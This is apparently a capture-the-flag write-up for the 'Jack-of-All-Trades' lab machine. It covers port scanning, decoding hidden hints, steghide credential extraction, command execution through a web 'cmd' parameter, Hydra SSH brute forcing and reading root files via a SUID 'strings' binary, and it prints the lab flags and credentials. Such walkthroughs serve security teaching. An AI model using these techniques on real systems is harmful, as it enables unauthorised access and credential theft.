





# Jack-of-All-Trades

## Description

Boot-to-root originally designed for Securi-Tay 2020

Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:

* 22 http
* 80 ssh

~~~
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Webpage

As you have probably noticed, the ports are reversed in terms of standards and your browser restrictes your access to port 22. You can fix this problem by changing the configurations of your browser. There is a guide [here](https://thegeekpage.com/err-unsafe-port/) for both chrome and firefox. You can also use our good old friend, `curl`.

I'm gonna use `curl` for now, so let's start. If you check the main page's source code, there are two comments. One is a base64 string and one gives us a page for recovery named `recovery.php`:

~~~sh
└─$ curl -s "http://$IP:22/" | grep '<!'
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
~~~

First, let's decode the base64 string:

~~~sh
└─$ echo "UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==" | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
~~~

Now we have a password that we might need later: `u?WtKSraq`

Let's move on to the page we found (`recovery.php`). There is an encoded string in the source code, that can be decoded with the following pattern: Base32 > Hex > ROT13. You can use [CyberChef](https://gchq.github.io/CyberChef/) to decode the string. It decodes to:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

## Finding Creds

Here we are given a link to hint us. Navigating to this url (`bit.ly/2TvYQ2S`) takes us to a wikipedia page with the title of "Stegosauria". It is hinting us towards "steganography". I guessed that what we are looking for is in one of the images of the main page:

~~~
└─$ curl -s "http://$IP:22/" | grep '
			
			
~~~

Don't get baited by the names. The real message is in `header.jpg`. I used `steghide` to extract the file inside the image with the password we found (`u?WtKSraq`):

~~~
└─$ steghide extract -sf header.jpg
Enter passphrase: 
wrote extracted data to "cms.creds".
                                                                                                                      
└─$ cat cms.creds                         
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
~~~

We were able to extract a file named `cms.creds`, which reveals the creds for the CMS:

* Username: `jackinthebox`
* Password: `TplFxiSHjY`

## Connecting to SSH

Let's login to the cms using the creds from `/recovery.php`. After I submited the creds, I got redirected to `http://<MACHINE IP>:22/nnxhweOV/index.php` and was shown this message:

<p align="center"></p>

I guessed that I should send a parameter by the name of `cmd`. To test it, I browsed `http://<MACHINE IP>:22/nnxhweOV/index.php?cmd=id` and got results:

<p align="center"></p>

So we can run commands on the machine, but when I tried running some commands like bash, I didn't get anything back. There should be a filter that doesn't let us run anything we want.

After exploring the machine a bit, I found out that we have two ways. First one being a python reverse shell, because we can run python. But the second one is what I'm gonna do, so here we go.

I listed `/home` to see the users on the machine and found a user named `jack` and also something interesting:

<p align="center"></p>

There is a list of strings with random characters here named `jacks_password_list`. I used `cat` command to display it (`…/index.php?cmd= cat /home/jacks_password_list`):

<p align="center"></p>

### Brute-forcing SSH

From the name, I guessed that user `jack`'s password might be among the strings. I saved the list in a file and used `hydra` to brute-force the ssh service using the list:

~~~
└─$ hydra -l jack -P ./wordlist.txt ssh://$IP:80/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 07:00:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.210.212:80/
[80][ssh] host: 10.10.210.212   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
~~~

My guess was right and we have `jack`'s password now: `ITMJpGGIqg1jn?>@`

## User Flag

I used the creds we found (`jack:ITMJpGGIqg1jn?>@`) and logged into the ssh service. First I listed the files in jack's home directory and saw an image named `user.jpg`:

~~~
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
~~~

I used `scp` to transfer the file to my machine:

~~~
└─$ scp -P 80 jack@$IP:/home/jack/user.jpg . 
jack@10.10.210.212's password: 
user.jpg                                                                            100%  286KB 497.5KB/s   00:00
~~~

Here's the image and it contains the user flag:

<p align="center"></p>

User flag: `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`

## Root Flag

Now we need to obtain the root flag. First I ran `sudo -l` to check my sudo permissions and we have none:

~~~
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
~~~

Next I decided to look for the files owned by root with the SUID bit set:

~~~
jack@jack-of-all-trades:~$ find / -type f -user root -perm -4000 -exec ls -al {} + 2>/dev/null
-rwsr-xr-x 1 root root         40000 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root         40168 Nov 20  2014 /bin/su
-rwsr-xr-x 1 root root         27416 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root         53616 Nov 20  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root         44464 Nov 20  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root         75376 Nov 20  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root         39912 Nov 20  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root         54192 Nov 20  2014 /usr/bin/passwd
-rwsr-sr-x 1 root mail         89248 Feb 11  2015 /usr/bin/procmail
-rwsr-x--- 1 root dev          27536 Feb 25  2015 /usr/bin/strings     <-------
-rwsr-xr-x 1 root root        149568 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus  294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root        464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root         10248 Apr 15  2015 /usr/lib/pt_chown
-rwsr-xr-x 1 root root       3124160 Feb 17  2015 /usr/sbin/exim4
~~~

As you can see `strings` is among these programs, which is weird, but we can use it to read the files that we don't have the permission to. We know the path to the root flag from the hint (/root/root.txt), so let's read it:

~~~
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
~~~

Root flag: `securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )